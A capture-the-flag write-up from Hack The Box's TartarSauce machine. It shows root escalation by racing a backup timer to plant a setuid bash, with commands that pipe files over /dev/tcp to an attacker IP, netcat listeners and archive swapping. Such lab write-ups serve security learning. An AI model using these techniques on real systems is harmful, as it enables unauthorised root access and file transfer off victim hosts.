 # 30 - Root


# backuperer.timer

![](vx_images/1864996819643.png)

# let's locate backuperer
![](vx_images/1624280927107.png)

# backuperer runs every 5 minutes 
![](vx_images/132791797293.png)

# See [31 - backuperer](/home/kali/htb/tartarsauce/notes/31%20-%20backuperer.md) for the vulnerability

# <center>Exploit</center>

Let's copy /bin/bash to our box and change permissions on it.

```bash
onuma@TartarSauce:/var/tmp/check/var/www/html$ cat /bin/bash  > /dev/tcp/10.10.14.9/9001
```


```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ nc -lvp 9001 > bash
listening on [any] 9001 ...
connect to [10.10.14.9] from tartarsauce.htb [10.10.10.88] 50286
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ mkdir -p var/www/html/
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ mv bash var/www/html/
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ sudo chown root:root var/www/html/bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ sudo chmod +s var/www/html/bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ sudo tar -zcvf shell.tar.gz var/
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ 
```

# Malicious bash is ready
![](vx_images/1614523522973.png)


You may be wondering why I didn't compress the bash from my box, the answer is very simple target platform is different.

![](vx_images/269918901433.png)

# Move the tar file to tartarsauce.htb
```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ cat shell.tar.gz >  /dev/tcp/10.10.10.88/9001
```

# Receive shell.tar.gz
```bash
onuma@TartarSauce:/tmp/tmp.0uDfGnpowp$ nc -lvp 9001 > shell.tar.gz
Listening on [0.0.0.0] (family 0, port 9001)
Connection from [10.10.14.9] port 9001 [tcp/*] accepted (family 2, sport 52472)
```


# Let's check when it is executing next
![](vx_images/3470437648809.png)

# After 2 minutes it's executing now .c0c04c should be the tar file we have 30 seconds to change this file

![](vx_images/1465887549349.png)


```bash
onuma@TartarSauce:/tmp/tmp.0uDfGnpowp$ cat shell.tar.gz  > /var/tmp/.c0c04c48fbd2ffc51dd20b47a07d2a0eaf529e1f
```
After 30 seconds, the program will compare the decompressed **check** folder with **/var/www/html** if they are not identical, check folder should be kept there for developers to take a look.



# Setuid file execution with -p flag and getting root


![](vx_images/2600627112763.png)

-p flag is necessary otherwise bash will launch with real user id instead of effective user id. Bash will drop privileges if ruid != euid for security reasons.